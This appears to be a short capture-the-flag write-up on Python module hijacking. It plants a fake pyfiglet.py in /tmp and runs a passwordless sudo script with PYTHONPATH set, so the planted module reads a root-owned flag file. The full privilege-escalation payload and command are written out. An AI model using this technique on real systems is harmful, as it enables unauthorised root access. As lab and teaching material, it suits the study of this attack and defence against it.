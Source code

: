 ```yaml
---
share_link: https://share.note.sx/0cfr98wu#tdbuq+4TWp35uvFyrCTI9WLJTi7n7fbdMUSJQp2iJ0U
share_updated: 2025-03-31T02:35:05+02:00
---
```


We can use this technique in case we have a python script that runs as `sudo` without a password.

![](https://i.imgur.com/4rjrfGa.png)


we check the script and we can see it uses a library called `pyfiglet`.

![](https://i.imgur.com/ZcrUW3a.png)

In module hijacking we change the path of Python libraries so it runs our own library.

in this case we create a file  `/tmp/pyfiglet.py` which has the following content

```python
import os
# os.system('ls -la /root') # testing and checking flag location
os.system('cat /root/flag.txt')
```

we run the following command

```sh
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/cool.py
```

and we are presented with the flag.
